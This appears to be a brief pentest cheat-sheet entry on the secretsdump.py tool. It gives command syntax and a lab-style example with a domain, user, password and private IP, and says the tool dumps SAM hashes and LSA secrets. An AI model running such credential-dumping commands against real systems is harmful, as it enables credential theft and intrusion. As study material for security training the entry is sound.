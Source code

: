 secretsdump.py
********************

.. code-block:: console

        secretsdumpy.py domain/user:Password@IP
        secretsdump.py marvel/fcastle:Password1@192.168.57.141

This will dump information like SAM hashes, LSA, and etc. and give it to you 
